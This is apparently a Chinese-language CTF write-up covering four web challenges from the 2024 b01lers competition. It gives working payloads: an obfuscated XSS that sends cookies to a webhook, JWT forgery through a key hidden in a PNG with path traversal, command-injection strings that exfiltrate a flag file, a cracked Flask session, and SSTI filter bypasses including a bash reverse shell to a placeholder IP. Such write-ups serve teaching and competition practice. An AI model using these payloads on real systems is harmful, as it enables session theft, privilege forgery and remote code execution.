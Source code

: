 
# web
### b01ler-ad
post `/review`接口,会有一个浏览器来访问http://localhost:3000/admin/view?content?=${content}
,发送一个html文档,

过滤了' " \` 使用String.fromCharCode绕过
 应该是xss读cookie,就是直接发个html,fetch,注意加个no-cors,不然无法跨域

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>upload</title>
</head>
<body>
<script>
eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,97,50,48,99,57,102,57,100,45,98,53,48,54,45,52,97,56,97,45,57,51,100,97,45,99,101,53,52,102,100,56,55,100,48,54,97,39,44,123,109,101,116,104,111,100,58,39,80,79,83,84,39,44,109,111,100,101,58,39,110,111,45,99,111,114,115,39,44,98,111,100,121,58,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,41))</script>

</body>
</html>
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240413232240.png)

### imagehost
flag在上传的png里,登录为admin即可
`FLAG_FILENAME="$(python3 -c 'import uuid;print(uuid.uuid4())').png"`

Route("/", home),   主页,jwt鉴权,给出当前用户所有上传的照片
Route("/login", login_get), 返回login.html,jinjia2渲染无ssti
Route("/login", login, methods=["POST"]),    传入用户名/密码,fetchone,设置jwt里userid和admin
Route("/register", register_get),             register.html
Route("/register", register, methods=["POST"]),   insert,参数化
Route("/logout", logout),                  
Route("/", upload, methods=["POST"]),        上传文件,
Route("/view/{filename}", view),   
```python
async def view(request):
	filename = request.path_params["filename"]
	
	path = UPLOAD_FOLDER.joinpath("a").with_name(filename)
	if not path.exists():
		return PlainTextResponse("Image not found", 404)
	
	return FileResponse(UPLOAD_FOLDER.joinpath("a").with_name(filename))
```

需要伪造admin用户,使用的是非对称加密,且公钥(decode)的文件位置可指定,能否通过upload上传公钥文件,,且pem还要符合png的标准

我为我的无知道歉,pem的格式是这样的
```pem
-----BEGIN RSA PRIVATE KEY-----
MIICXAIBAAKBgQCT96Ir3DM+PtlpHqyI8YOBOKyAexIO5RMpwUgUndIRBs72g0Ga
Tyy8yxKbMCaJ2nLQBC9D6cOp8UzHBeirsk0rYETGQBFqHzOvjod3VjE+9eRMJGl7
oohwHUzqHUOoNDKLvz2HuoVtRHawfw4EHCx9OTNyWct7jjg9VV0EEz9IdQIDAQAB
AoGAbFR3kZ70kVTYPYLslJIlUj0Y5jO0Y91Iq2BLknR9MGQIsCgmpn/i5BHU/HND
M9gQCMWXiSQjUU9Ng8SKtPGkVsl22mNZkRb69Ca1083pI2HxwL3dhEXl+VLD37w+
Cg+9glWnsjdUFy8WoiTun0yWJHiXKN2VRCv759+vJS6M150CQQDDQt2HoKEKVsU1
RLyRpr93Idtmzplro48zsvsmuCZJyNnpn4VYz7BFvu7SDX4Xkz1dr9gELnTvnQY3
rBWNQOXzAkEAwf6jpDFa+JL9/CLLTxuwn51Or8C4zcd1LjrmsqWz8SYDnuAZo4Vg
A2MlVAYpbk1XfVWzGPxralsa9+Zrl9yp9wJATmQe2h+T57m0TNF+vx7pyWNPWTPi
hkNQ75mQmRffT0oSqmd/uosPIsEn0i7Wi5JyVZWOLQeVrMkmwN0WffIrHwJBAIM2
4Sil2YpYokJwpmOTrxvHIvntuRI23yOt42zid5ucwsYrfiwEgrTH0u/KWyuoVI0J
8mHsGhuOE+epiwzkzHECQCN3G0+GcCfE6eYF5yW19n7QoK3sxU5HbwXKoAeXgM0z
TEiGjWVM5w+Ea21IUsE2O2CIG1CePqUI2DSujYCo7Oc=
-----END RSA PRIVATE KEY-----
```
或者说view路由读取公钥文件?

实践出真知!!!,只要不破坏pem文件格式也可以解析
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414025437.png)

类似于图片马的制作,在一个图片中间把公钥加上去
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414035316.png)


照着原来的代码写一个加密,注意在linux上跑...
```python
import jwt
from pathlib import Path


payload={"user_id":1,"admin":True}

def encode(payload, public_key: Path, private_key: Path):
        key = private_key.read_bytes()
        return jwt.encode(payload=payload, key=key, algorithm="RS256", headers={"kid": str(public_key)})
print(encode(payload=payload,public_key=Path('../../../../../../uploads/2b170008-668c-4810-9b38-3815912a675b.png'),private_key=Path('/tmp/private.pem')))
```

output`eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii4uLy4uLy4uLy4uLy4uLy4uL3VwbG9hZHMvMmIxNzAwMDgtNjY4Yy00ODEwLTliMzgtMzgxNTkxMmE2NzViLnBuZyJ9.eyJ1c2VyX2lkIjoxLCJhZG1pbiI6dHJ1ZX0.fBuVTPsTuxKvVfpTUsi8qcDt07TqNZaORzH936DSgCT_xn5AtblipxDWKIHCbRRQyb1E2fwCQI7S9ORYNEb71PCrAHSop2akS084yIssIyVM3JGCVKpNrOvt-ta6Ua3TemAcpuI3Jx8jE_HTIot0rdBahS_DVXuZ8-NHn2YqIOo`

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414034815.png)



### 3-city-elves-writeups
命令注入,过滤了很多关键字

通过变量替换,先得到echo,使用base32 读取flag.png然后写入到静态文件style.css里
本地可以,远程不行
```json
{"content":"1\"';b=`b=ch;e${b}o 'F4FA====' |base32 -d`;a=ch;e${a}o 'aaaa'>> as*${b}sty* ;'\""}
```

```json
//变量b为/,然后base32读取根目录flag.png
{"content":"1\"';b=`b=ch;e${b}o 'F4FA====' |base32 -d`;base32 ${b}proc${b}self${b}cmdline >> as*${b}sty* ;'\""}
```
sh不支持多级目录通配符...

```json
{"content":"1\"';e=se;b=`b=ch;e${b}o 'F4FA====' |base32 -d`;base32 ${b}flag.png > as${e}ts${b}style ;'\""}
```

然后访问&下载/static/style 
`base32 -d style >flag.png`

![flag.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414174123.png)



`bctf{Lucky_you_I_did_not_code_this_stuff_in_Ruby_lasudkjklhdsfkhjkae}`

### pwnhub
#ssti
可以上传笔记内容,存在ssti
```python
@app.get('/view/<id>')
@login_required
def view(id):
    if (users[current_user.name].verification != V.admin):
        return render_template_string('This feature is still in development, please come back later.')
    content = next((post for post in current_user.posts if id in post), None)
    if not content:
        return render_template_string('Post not found')
    content = content.get(id, '')
    if any(char in content for char in INVALID):
        return render_template_string(f'1{"".join("33" for _ in range(len(content)))}7 detected')
    return render_template_string(f"Post contents here: {content[:250]}")
```
但是需要先是admin
```python
users = {
    "admin": User("admin", ''.join(choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(32)), V.admin),
    "pwnlyfans": User("pwnlyfans", ''.join(choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(32)), V.user)
}
```
看到secrets为`app.secret_key = hex(getrandbits(20))`,爆破

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414212946.png)

`0xbbe18`

`flask-unsign -s --secret "0xbbe18" --cookie "{'_fresh': False, '_id': '09120b7e8cf2ee71c6a5c874479193608d3eba9822f44d9341f44a6076456bd081bb8ad8719f74f2fb9deb2e7b8ac8c6b4b39cd30a83c082b852a0b96a4820ab', '_user_id': 'admin'}" --no-literal-eval`

得到admin的session
```
.eJwlzjEOwjAMQNG7ZGZwHDe2e5nKjh1RCRhaMSHuTiWmL_3pfco2jzzvZZ32OPNWtj3KWkArgnPKmJjJdXRbhjARa9XWQaKlmwriJAptVK9aB-60dA-Q6i4WwlUn08TpGumYfN0hozt50xENTNoAQZcFDVy7kSCYlwvyPvP4ayye-6t8f4VbMTY.ZhvbZQ.-GnCt5UVviTjN6PrEodMeBbKO3I
```

需要绕过ssti的长度限制
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414214310.png)

不需要绕,是先append然后根据len来显示错误消息,可以自己计算post_id
黑名单`INVALID = ["{{", "}}", ".", "_", "[", "]","\\", "x"]`

限制长度为255,

`{{cycler.__init__.__globals__.os.popen('id').read()}}`

`url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()`

ssti不下去了,

---
```bash
{%with a=request|attr("args")|attr("get")%}{%for y in(dict,)|map("attr",a("a"))|map("attr",a("b"))|first()()%}{%if "Pop"in(y,)|map("attr",a("c"))|first%}{%print(y("bash -c 'sh -i>& /dev/tcp/ATTACKR_IP_IN_DECIMAL/80 0>&1'",shell=1))%}{%endif%}{%endfor%}{%endwith%}
```

`?a=__base__&b=__subclasses__&c=__name__`



---
```bash
{%with a=session|first%}{%print(request|attr("application")|attr(a+"globals"+a))|attr(a+"getitem"+a)("json")|attr("codecs")|attr("sys")|attr("modules")|attr(a+"getitem"+a)("os")|attr("popen")("cat /*")|attr("read")()%}{%endwith%}
```


### 
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-13   22:21